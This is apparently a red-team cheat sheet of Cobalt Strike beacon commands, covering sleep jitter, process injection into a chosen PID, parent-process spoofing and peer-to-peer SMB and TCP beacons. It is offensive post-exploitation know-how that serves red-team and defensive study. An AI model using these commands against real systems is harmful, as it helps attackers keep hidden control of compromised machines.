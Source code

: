 <p align="center">
  <img width="500" height="100" src="https://github.com/bigb0sss/RedTeam/blob/master/CobaltStrike/cs_logo.png">
</p>

## Command References

### Beacons
#### Sleep
```css
sleep 60 50                                 ; Sleep 60 sec with 50% of jitter (Call back between 30 to 60 secs randomly) 
```

#### Session Passing
```css
spawn [x86|x64] [Listener]
inject [PID] [x86|x64] [Listener]

### Parent Process Modification
ppid [Choice of your parent process (e.g., iexplore.exe)]
spawnto [x86|x64] [New parent process]
```


#### SMB Beacn
```css
spawn [SMB-Listner-Name]                    ; Spawning a peer-to-peer ("P2P") SMB beacon 
inject [PID] [x86|x64] [SMB-Listner-Name]   ; Useful when trying to spawn P2P beacon as different user context
```

#### TCP Beacn
```css
spawn [TCP-Listner-Name]                    ; Spawning a peer-to-peer ("P2P") TCP beacon 
                                            ; TCP beacons can be also run locally by clicking "Bind to localhost only" on GUI
inject [PID] [x86|x64] [TCP-Listner-Name]   ; Useful when trying to spawn P2P beacon as different user context
```
